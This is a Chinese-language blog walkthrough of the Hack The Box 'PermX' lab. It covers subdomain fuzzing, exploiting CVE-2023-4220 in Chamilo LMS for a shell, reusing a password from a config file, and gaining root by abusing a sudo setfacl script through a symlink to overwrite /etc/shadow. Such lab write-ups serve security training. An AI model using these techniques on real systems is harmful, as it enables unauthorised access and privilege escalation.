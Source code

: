 ```yaml
---
title: Hack The Box PermX
description: Hack The Box PermX 靶机 WP
pubDate: 09 24 2024
image: https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-2.png?imageSlim
categories:
  - 网络安全
tags:
  - 靶场
  - Hack The Box靶场
  - 渗透测试
---
```


Hack The Box PermX 靶机

靶机 IP：10.10.11.23

## Web 渗透

放 Goby 里扫

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-3.png?imageSlim)

发现 80 端口开启，访问 Web 页面

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-1.png?imageSlim)

跳转至 `permx.htb`，添加至 Hosts

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-2.png?imageSlim)

没啥东西，fuzz 子域名

```shell
.\wfuzz.bat -c -w "E:\Crack\Red_Team\Dict\SecLists\Discovery\DNS\subdomains-top1million-5000.txt" -u "http://permx.htb/" -H "Host: FUZZ.permx.htb" --hl 9
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-4.png?imageSlim)

得到子域名 `lms.permx.htb`，添加到 hosts

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-5.png?imageSlim)

查找默认密码

没找到。弱口令试试，`admin/admin`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-6.png?imageSlim)

跳转到这里，可能有SQL 注入？

没成功，找一下其他 nday

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-7.png?imageSlim)

发现一个 RCE

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-8.png?imageSlim)

需要管理账号密码，没用。接着找

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-9.png?imageSlim)

找到另一个 RCE

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-10.png?imageSlim)

失败。目录扫描试试

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-11.png?imageSlim)

发现个 `web` 目录

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-12.png?imageSlim)

没用，看看 `robots`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-13.png?imageSlim)

发现一个文档

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-14.png?imageSlim)

当前版本是 1.11。接着找 nday

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-16.png?imageSlim)

这里倒是一堆，挨个试吧

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-15.png?imageSlim)

CVE-2023-4220 这个洞，确实找到了一个 `bigUpload.php`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-17.png?imageSlim)

不过看不了源码，用他给的 exp 上 shell

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-18.png?imageSlim)

用 nc 接一下

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-19.png?imageSlim)

## 内网渗透

找 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-20.png?imageSlim)

没有，找 home 下的用户

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-21.png?imageSlim)

有一个 `mtz` 用户，找一下网站配置文件

在 `/var/www/chamilo/app/config/configuration.php` 找到如下内容

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-22.png?imageSlim)

得到 `chamilo/03F6lY3uXAP2bkW8`，试着登录一下 `mtz/03F6lY3uXAP2bkW8`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-23.png?imageSlim)

ok，登录进来了，得到 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-24.png?imageSlim)

上几个工具，全都用不了

常规看一下

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-25.png?imageSlim)

`/opt/acl.sh` 可访问

```shell
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* ); then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

脚本功能是在 `/home/mtz/` 下改权限。看一下 `/home/mtz` 下的权限

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-26.png?imageSlim)

哎？可以用软链接

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-27.png?imageSlim)

我们现在可以修改一个文件，那就修改 shadow 呗，重新生成一个密码

```shell
sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-28.png?imageSlim)

然后用 `openssl` 重新生成一个密码

```shell
openssl passwd -6 Admin
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-29.png?imageSlim)

得到

```shell
$6$sqEazCoH043.7zJA$TWQBv0Zo.K8uhq5zPJuj7cmQjP491KmeR.7zoZK9K4w49RM3E4Xat9MZelXHPZnGs6w40bvj2zDWOoNHAsvBJ0
```

然后 echo 覆写一下，即可登录 root

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-30.png?imageSlim)

拿到 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20PermX/PermX-31.png?imageSlim)
